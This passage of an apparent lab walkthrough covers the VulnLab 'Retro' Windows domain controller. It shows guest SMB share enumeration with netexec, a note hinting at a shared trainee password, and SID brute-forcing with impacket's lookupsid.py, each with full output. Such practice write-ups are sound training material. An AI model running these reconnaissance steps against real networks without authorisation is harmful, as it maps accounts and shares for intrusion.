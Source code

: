 ```
syl@sylsec:~/vulnlab/Retro$ netexec smb 10.10.64.243 -u 'Guest' -p '' --shares
SMB         10.10.64.243    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.243    445    DC               [+] retro.vl\Guest: 
SMB         10.10.64.243    445    DC               [*] Enumerated shares
SMB         10.10.64.243    445    DC               Share           Permissions     Remark
SMB         10.10.64.243    445    DC               -----           -----------     ------
SMB         10.10.64.243    445    DC               ADMIN$                          Remote Admin
SMB         10.10.64.243    445    DC               C$                              Default share
SMB         10.10.64.243    445    DC               IPC$            READ            Remote IPC
SMB         10.10.64.243    445    DC               NETLOGON                        Logon server share 
SMB         10.10.64.243    445    DC               Notes                           
SMB         10.10.64.243    445    DC               SYSVOL                          Logon server share 
SMB         10.10.64.243    445    DC               Trainees        READ            
```

I went in and checked the readable share "Trainees" and I got the file `Important.txt` which contained the following text:

```
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins
```

That is definitely interesting it does hint that there may be weak credentials, so let's try to enumerate some users. Since that the account "Guest" is working, I used the `lookupsid` by the impacket's scripts.

```
syl@sylsec:~/tools/impacket/examples$ python3 lookupsid.py Guest@10.10.64.243
Impacket v0.12.0.dev1+20230921.20754.9c8f344b - Copyright 2023 Fortra

Password:
[*] Brute forcing SIDs at 10.10.64.243
[*] StringBinding ncacn_np:10.10.64.243[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2983547755-698260136-4283918172
498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: RETRO\Administrator (SidTypeUser)
501: RETRO\Guest (SidTypeUser)
502: RETRO\krbtgt (SidTypeUser)
512: RETRO\Domain Admins (SidTypeGroup)
513: RETRO\Domain Users (SidTypeGroup)
514: RETRO\Domain Guests (SidTypeGroup)
515: RETRO\Domain Computers (SidTypeGroup)
516: RETRO\Domain Controllers (SidTypeGroup)
517: RETRO\Cert Publishers (SidTypeAlias)
518: RETRO\Schema Admins (SidTypeGroup)
519: RETRO\Enterprise Admins (SidTypeGroup)
520: RETRO\Group Policy Creator Owners (SidTypeGroup)
521: RETRO\Read-only Domain Controllers (SidTypeGroup)
522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
525: RETRO\Protected Users (SidTypeGroup)
526: RETRO\Key Admins (SidTypeGroup)
527: RETRO\Enterprise Key Admins (SidTypeGroup)
553: RETRO\RAS and IAS Servers (SidTypeAlias)
571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
```